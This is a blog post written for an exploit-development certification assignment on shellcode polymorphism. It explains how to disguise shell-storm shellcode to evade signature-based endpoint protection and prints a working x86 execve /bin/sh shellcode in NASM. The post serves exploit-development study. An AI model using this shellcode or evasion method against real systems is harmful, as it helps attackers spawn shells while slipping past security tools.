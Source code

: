 ```yaml
---
title: "SLAE x86 - Assignment 0x6"
date: 2021-10-23T03:59:19Z
draft: false
tags:
  - exploit_dev
  - assembly
categories:
  - certification
keywords:
  - slae
  - shellcode
  - assembly
---
```


# Shellcode Polymorphism
## Objectives
- Take up 3 shellcodes from shell-storm and create polymorphic versions of them to beat pattern matching
  - The polymorphic versions cannot be larger 150% of the existing shellcode
  - Bonus points for making it shorter in length than original

## Polymorphism
It is a *"concept borrowed from a principle in biology where an organism or species can have many different forms or stages"* as mentioned in [`this Wikipedia Article`](https://en.wikipedia.org/wiki/Polymorphism_(computer_science)). It's use case in exploit development is the almost the same with [`Shellcode Encoding assignment`](../slae_x86_a4#overview) and as mentioned in the [objectives](#objectives), to beat pattern matching. In simple way, the current code is modified to be look like gibberish but still getting the end result as the original code. Also, adding extra instructions like `nops` or other that will not affect the outcome to make the shellcode look different from existing signatures of endpoint protection products.

## Tiny Execve sh Shellcode
### Original Shellcode
- Source: http://shell-storm.org/shellcode/files/shellcode-841.php
- This will use `execve` syscall to run `/bin/sh` program
```nasm
global _start

section .text

_start:
  xor ecx, ecx
  mul ecx
  mov al, 0xb
  push ecx
  push dword 0x68732f2f
  push dword 0x6e69622f
  mov ebx, esp
  int 0x80
```
